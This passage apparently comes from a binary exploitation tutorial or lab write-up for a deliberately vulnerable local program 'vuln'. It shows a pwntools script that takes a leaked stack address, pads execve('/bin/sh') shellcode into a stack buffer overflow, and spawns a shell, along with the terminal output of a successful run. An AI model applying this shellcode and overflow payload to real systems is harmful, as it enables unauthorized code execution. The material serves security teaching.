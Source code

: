 ```
$	./shellcode 
$ w
 17:50:31 up  4:45,  1 user,  load average: 2.60, 2.55, 2.28
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guy      tty7     :0               13:07    4:45m  7:23   0.26s /sbin/upstart -
$ ls
peda-session-ls.txt	    readme.md  shellcode.asm  vuln
peda-session-shellcode.txt  shellcode  shellcode.o    vuln.c
$ exit
```

and we can test the exploit:
```
$	cat exploit.py 
# Import pwn tools
from pwn import *

# Establish the target process, and attach gdb
target = process('vuln')
#gdb.attach(target')

# Get the address being leaked, strip the newline, and convert it to and integer
infoleak = target.recvline().replace("\x0a", "")
address = int(infoleak, 16) 

# Establish the shellcode:
'''
 8048060:   68 2f 73 68 00          push   0x68732f
 8048065:   68 2f 62 69 6e          push   0x6e69622f
 804806a:   89 e3                   mov    ebx,esp
 804806c:   31 d2                   xor    edx,edx
 804806e:   53                      push   ebx
 804806f:   52                      push   edx
 8048070:   89 e1                   mov    ecx,esp
 8048072:   b8 0b 00 00 00          mov    eax,0xb
 8048077:   cd 80                   int    0x80
'''

shellcode = "\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x53\x52\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

# Construct the payload
payload = shellcode + ((0x70 - len(shellcode))*"0") + p32(address)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell
$	python exploit.py 
[!] Could not find executable 'vuln' in $PATH, using './vuln' instead
[+] Starting local process './vuln': pid 9419
[*] Switching to interactive mode
$ ls
exploit.py            peda-session-vuln.txt  shellcode.asm  vuln.c
peda-session-ls.txt        readme.md           shellcode.o
peda-session-shellcode.txt  shellcode           vuln
$ w
 18:05:48 up  5:00,  1 user,  load average: 2.68, 2.18, 2.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guy      tty7     :0               13:07    5:00m  8:17   0.27s /sbin/upstart --user
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```